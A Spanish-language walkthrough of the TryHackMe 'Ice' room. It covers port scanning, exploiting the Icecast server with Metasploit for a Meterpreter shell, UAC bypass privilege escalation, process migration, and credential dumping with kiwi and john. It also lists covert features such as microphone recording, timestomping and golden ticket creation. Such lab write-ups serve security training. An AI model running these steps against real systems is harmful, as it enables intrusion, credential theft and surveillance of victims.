# Ice

## Información General

<h3>Dificultad:  </h3>

<h3> Sistema operativo: Windows</h3> 

<h3> Vulnerabilidad explotada: Media Server </h3>

<h3> Fecha de resolución: 20/06/2025 </h3>

<h3>Enlace de la mv: <a href="https://tryhackme.com/room/ice" target="_blank">Ice</a></h3>

### *Leer el documentro en Ingles:* <a href="ice_english.md">Ice</a>

## Escaneo de puertos abiertos

### Escaneo de puerto TCP

El comando que usaré es: 

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn <ip de la máquina objetivo>
```

<p align="center"> 

</p>

<p align="center"> 

</p>

<div align="center">

| Open port | Service      | Version                                                                        |
| --------- | ------------ | ------------------------------------------------------------------------------ |
| 135       | msrpc        | Microsoft Windows RPC                                                          |
| 445       | microsoft-ds | Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP) |
| 139       | netbios-ssn  | Microsoft Windows netbios-ssn                                                  |
| 3389      | tcpwrapped   | -                                                                              |
| 49154     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                                          |
| 49153     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                                          |
| 49158     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                                          |
| 49159     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                                          |
| 49161     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                                          |
| 8000      | http         | syn-ack ttl 127 Icecast streaming media server                                 |
| 5357      | http         | syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                        |
| 49152     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                                          |

</div>

## Exploración

Abrimos **metasploit** 

Podemos buscar la vulnerabilidad de dos formas por su nombre o por su cve

```
search icecast
```
o
```
search CVE-2004-1561
```

<p align="center"> 

</p>

```
use 0
show options
```

<p align="center"> 

</p>

Establecemos **RHOSTS** y **LHOST**

```
set RHOSTS 10.10.91.31
set LHOST 10.8.139.36
show options
```

<p align="center"> 

</p>

```
run
```

<p align="center"> 

</p>

Si quieres información del sistema uso el siguiente comando

```
sysinfo
```

<p align="center"> 

</p>

Ejecutamos este comando para saber que privilegios tiene este usuario:

```
getprivs
```

<p align="center"> 

</p>

<div align="center">

| Privilegio                    | ¿Qué hace?                                                                                        |
| ----------------------------- | ------------------------------------------------------------------------------------------------- |
| SeChangeNotifyPrivilege       | Permite recibir notificaciones cuando cambia el sistema de archivos (muy común y poco peligroso). |
| SeIncreaseWorkingSetPrivilege | Permite aumentar el conjunto de trabajo de memoria del proceso.                                   |
| SeShutdownPrivilege           | Permite apagar o reiniciar el sistema.                                                            |
| SeTimeZonePrivilege           | Permite cambiar la zona horaria del sistema.                                                      |
| SeUndockPrivilege             | Permite que el usuario desancle un laptop.                                                        |

</div>

Al ejecutar el comando **getprivs** solo nos dice los permisos que tenemos con el usuario actual que es el usuario **DARK-PC**

Ejecutamos el siguiente comando porque es una herramienta que te hace la vida más sencilla detectando automáticamente qué exploits locales puede usar para ganar mas privilegios. **Dentro de la sesion de Meterpreter**

```
run post/multi/recon/local_exploit_suggester
```

<p align="center"> 

</p>

Una vez identificado el exploit que vamos a usar que es **exploit/windows/local/bypassuac_eventvwr**. Nuestra sesión de meterpreter lo ponemos en segundo plano:

```
control z o background
```

## Escalada de privilegios

Usaremos el siguiente módulo:

```
use exploit/windows/local/bypassuac_eventvwr 
show options
```

<p align="center"> 

</p>

Usamos este módulo para aprovechar un fallo en el control UAC para que el payload se vuelva a ejecutar automáticamente con permisos elevados, pero manteniendo el mismo usuario. 

Para saber que sesión pusimos en segundo plano, escribimos:

```
sessions -l
```

<p align="center"> 

</p>

```
set SESSION 1
set LHOST 10.8.139.36
show options
```

<p align="center"> 

</p>

```
run
```

<p align="center"> 

</p>

Uso este comando para saber que privilegio tiene esta vez mi usuario, y me doy cuenta que tengo mucho más de la que tenía en la sesión anterior

```
getprivs
```

<p align="center"> 

</p>

**SeTakeOwnershipPrivilege** = Te da derecho a “reclamar la propiedad” sobre cualquier objeto del sistema para luego poder darte los permisos que quieras.

Realizamos este comando para saber que proceso están abierto:

```
ps
```

<p align="center"> 

</p>

Luego migramos el proceso **spoolsv.exe** con el siguiente comando:

```
migrate -N spoolsv.exe
```

<p align="center"> 

</p>

Luego usando este comando para verificar que tipo de usuario somos ahora:

```
getuid
```

<p align="center"> 

</p>

## Explotación

Hay dos formas de conseguir la contraseña del usuario DARK

### Primera forma

Realizamos estos comandos:

```
load kiwi
hasdump
```

<p align="center"> 

</p>

Copiamos tal cual lo que esta dentro del cuadrado rojo y lo guardamos dentro de un .txt llamado **contraseña.txt**

Después ejecutamos el siguiente comando:

```
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt contraseña.txt 
```

<p align="center"> 

</p>

### Segunda forma

Usamos el siguiente comando porque kiwi es una herramienta de volcado de contraseñas.
**Mimikatz es la version anterior de kiwi**

```
load kiwi
```

<p align="center"> 

</p>

Ejecutamos el siguiente comando para saber las credenciales de los usuarios:

```
creds_all
```

<p align="center"> 

</p>

## Mimikatz/Kiwi - extra 

Si usamos este comando nos permite ver el escritorio del usuario remoto en tiempo real

```
screenshare
```

<p align="center"> 

</p>

Si quisiéramos grabar desde un micrófono conectado al sistema, usaremos este comando:

```
record_mic 
```

El siguiente comando es modificar las marcas de tiempo de los archivos en el sistema. **Se recomienda no hacerlo, a menos que se te pida hacerlo**

```
timestomp 
```

El siguiente comando te permite generar **Golden Ticket**

```
golden_ticket_create
```

------------------------------------

Por ultimo uso este comando, con el objetivo de entrar en la máquina de forma remota:

```
rdesktop <ip-máquinaObjetivo>
```

<p align="center"> 

</p>

Introducimos el **usuario** y **contraseña** que hemos conseguido

<p align="center"> 

</p>

**Maquina terminada!!**


